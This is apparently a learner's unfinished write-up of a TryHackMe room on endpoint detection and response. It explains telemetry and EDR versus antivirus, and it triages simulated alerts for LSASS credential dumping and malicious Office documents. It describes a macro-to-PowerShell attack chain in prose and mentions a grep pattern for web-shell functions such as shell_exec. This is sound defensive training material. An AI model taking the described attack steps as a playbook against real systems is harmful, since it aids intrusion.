# Introduction to EDR | TryHackMe

| | |
|---|---|
| **Platform** | [TryHackMe](https://tryhackme.com/room/introductiontoedrs) |
| **Path** | SOC Level 1 → Core SOC Solutions |
| **Difficulty** | Easy <!-- TODO: confirm difficulty --> |
| **Status** | Completed (22 Nov 2026) |
| **Environment** | Simulated in-browser EDR console (hands-on practice, not work experience) |
| **Focus** | EDR concepts, endpoint telemetry, EDR vs antivirus, alert triage, IOC analysis, MITRE ATT&CK mapping |

> Flags are redacted in all screenshots.

## Contents

1. [Objective](#objective)
2. [At a Glance](#at-a-glance)
3. [Room Overview and EDR Landscape](#1-room-overview-and-edr-landscape)
4. [Visibility, Detection, Response](#2-visibility-detection-response)
5. [EDR vs Traditional Antivirus](#3-edr-vs-traditional-antivirus)
6. [EDR Architecture and Telemetry](#4-edr-architecture-and-telemetry)
7. [Practical: Triaging EDR Detections](#5-practical-triaging-edr-detections)
8. [Triage Summary](#triage-summary)
9. [Reflection: How I'd Write the Escalation Notes](#reflection-how-id-write-the-escalation-notes)
10. [Key Takeaways](#key-takeaways)
11. [Glossary](#glossary)
12. [Skills Demonstrated](#skills-demonstrated)

## Objective

Learn what an EDR does, how its agents and console fit together, and why it catches activity that signature-based antivirus misses. Then use a simulated EDR console to triage four detections and investigate three of them through their process chains and IOCs.

## At a Glance

| | |
|---|---|
| **Alerts in the console** | 4 (all "Not Acknowledged") |
| **Investigated in depth** | 3 (LSASS credential dumping, AppData execution, malicious Office document) |
| **Not investigated** | 1 (Scheduled Task persistence, only seen in the list) |
| **Key concept** | EDR connects process, command line, network, file and registry activity into one attack chain |
| **Tools and views used** | Alert summary, process chain, IOC tab, risk assessment (severity and confidence) |
| **Frameworks** | MITRE ATT&CK, Five Ws |

## 1. Room Overview and EDR Landscape

The room opens with the EDR market, listing CrowdStrike Falcon, Symantec EDR, SentinelOne EDR and Microsoft Defender for Endpoint.





## 2. Visibility, Detection, Response

EDR works as three connected capabilities. It first collects what happens on the endpoint, then flags suspicious behaviour, then lets the analyst act on the host.

| Pillar | What it gives the analyst | Where I saw it |
|---|---|---|
| Visibility | Telemetry on process, registry, file/folder and user activity, plus parent-child process trees | Screenshots 04, 05 |
| Detection | Alerts filterable by severity, time, status, tactic, technique and command line | Screenshot 06 |
| Response | Remote console on the host to run commands and scripts | Screenshot 07 |

Example data from the room's demo consoles:

- **Process tree:** `tor.exe` is the parent of `rar.exe`, and another branch runs `soy.exe` → `cmd.exe` → `sc.exe`, plus `net.exe`/`net1.exe`.
- **Detections list:** 23 results of 243. Entries include PowerShell on SRV-01 run by Administrator (High) and `Setup.exe` from a "Cracked" Photoshop folder (High). Two Low adware entries are on LPT-10075.
- **Real Time Response:** a Linux host (`hq-prd-website`) with a `grep -REi` script loaded for functions such as `eval`, `base64_decode`, `shell_exec` and `system` under `/var/www/html`. No output is shown.









Room questions for this section



## 3. EDR vs Traditional Antivirus

The room walks through one macro-based phishing attack and compares what each tool sees at every step.

| Step | Attacker action | Antivirus | EDR |
|---|---|---|---|
| 1 | Phishing email delivers a Word document with a macro | Blind if no known signature | Logs the download |
| 2 | User opens it in Word | Ignores a trusted binary | Records the execution |
| 3 | Macro launches PowerShell | Blind without a signature | Flags the unusual Word → PowerShell parent-child |
| 4 | Obfuscated PowerShell fetches a second-stage payload | Usually misses obfuscation | Flags the script execution |
| 5 | Payload injected into `svchost.exe` | Does not watch memory injection | Detects the injection |
| 6 | Remote access via outbound connection | No network visibility | Flags unexpected outbound traffic from `svchost.exe` |
| End | | May report "clean" | One alert with the full chain and response actions |

**Main point:** antivirus judges individual files against known signatures. EDR judges behaviour and relationships between processes, which is why a trusted binary like Word spawning PowerShell stands out.





Room questions for this section



## 4. EDR Architecture and Telemetry

Agents (sensors) on each endpoint send telemetry to a central console, where the analyst gets dashboards, alerts and response options.



| Telemetry | What it helps detect |
|---|---|
| Process executions/terminations | Suspicious parent-child chains, odd executables, payloads |
| Network connections | C2 traffic, unusual ports, exfiltration, lateral movement |
| Command-line activity | Malicious or obfuscated CMD/PowerShell that AV often misses |
| File and folder changes | Data staging, ransomware, dropped files |
| Registry changes | Persistence and configuration tampering |

The demo activity dashboard shows a CrowdScore of 0/100, 175 new detections, SHA-based detections, prevented malware by host, and detections by tactic (Malware, Defense Evasion, Machine Learning, Command and Control, Impact).







Room questions for this section





## 5. Practical: Triaging EDR Detections

The simulated console showed 51 active hosts and 4 new detections, all "Not Acknowledged". Detection sources were Anomaly, Behavior and Threat Intel. "Prevented malware by host" showed no data.

| Severity | Detection | Host | Time | Confidence shown |
|---|---|---|---|---|
| High | Initial Access via Malicious Office Document | DESKTOP-HR01 | Nov 22 2026, 18:00 | 95 |
| High | Credential Dumping via LSASS Memory Access | WIN-ENG-LAPTOP03 | Nov 22 2026, 17:21 | 85 |
| Medium | Execution from AppData Directory | DESKTOP-DEV01 | Nov 22 2026, 16:52 | 35 |
| Medium | Suspicious Persistence via Scheduled Task | DESKTOP-UATSERVER | Nov 22 2026, 16:17 | not captured |

**My method for each alert:** read the summary → check severity and confidence → walk the process chain from parent to child → review command lines, signing and threat intel → check IOCs and the action taken → map to ATT&CK → write the Five Ws.





---

### 5.1 Credential Dumping via LSASS Memory Access (WIN-ENG-LAPTOP03)







Detection details, risk assessment and process chain screenshots









<!-- TODO: add screenshot (Actions/Response tab) -->

**Five Ws (from visible evidence)**

| | |
|---|---|
| **Who** | User `haris.khan` |
